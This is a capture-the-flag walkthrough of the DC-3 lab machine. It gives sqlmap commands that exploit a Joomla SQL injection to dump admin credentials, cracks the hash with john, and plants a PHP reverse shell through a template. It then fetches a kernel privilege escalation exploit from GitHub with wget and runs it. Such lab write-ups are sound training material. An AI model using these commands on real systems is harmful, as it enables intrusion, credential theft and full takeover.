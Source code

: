 # DC - 3

directory enumeration

![](../../.gitbook/assets/1111111111111111%20%2814%29.png)

nmap enumeration

![](../../.gitbook/assets/1111111111111111%20%284%29.png)

the scan results show a joomla cms:

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%2812%29.png)

the admin pannel of joomla is in /administrator directory:

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%2815%29.png)

lets enumerate it with joomscan:

```text
joomscan --url http://192.168.56.126 -ec
```

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%2819%29.png)

searchsploit  shows that this version is vulnerable 

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%2813%29.png)

lets read the exploit:

```text
cat `locate 42033.txt`
```

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%2814%29.png)

this is a SQLi, we can use sqlmap  as shown in the exploit guide :

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%2816%29.png)

we have the databases, lets find the tables:

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb --tables
```

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%2820%29.png)

and the coulmns:

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb -T '#__users'  --columns
```

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%285%29.png)

then dump the username and password columns:

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb -T '#__users'  -C username --dump
```

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%2817%29.png)

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb -T '#__users'  -C password --dump

```

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%284%29.png)

```text
admin
$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu
```

save it in this format:

```text
admin:$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu
```

and run john to crack it:

```text
john hash
```

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%282%29.png)

admin : snoopy

login as admin in the cms admin login page:

{% embed url="http://192.168.56.160/administrator/" %}

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%288%29.png)

we have a template named protostart which is known for its vulnerability in joomla platforms \(google search\)

we can use this template to create a php shell on target system:

![](../../.gitbook/assets/aaaaaaaaaaaaa.png)

i use pentest monkey reverse php shell :

/usr/share/webshells/php/php-reverse-shell.php

change the ip and port

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%2811%29.png)

copy the content of the payload in the file content section:

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%286%29.png)

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%283%29.png)

now start a netcat listener and open the shell url in the browser:

{% embed url="https://192.168.56.160/templates/protostar/shell.php" %}

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%287%29.png)

lets get root:

ubuntu version 16.04

searchsploit ubuntu 16.04 local privilege escalation

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%2810%29.png)

wget [https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip)

unzip 39772.zip

cd 39772

tar xvf exploit.tar

cd ebpf\_mapfd\_doubleput\_exploit/

./compile.sh

./doubleput

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%2818%29.png)

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%289%29.png)

done !





















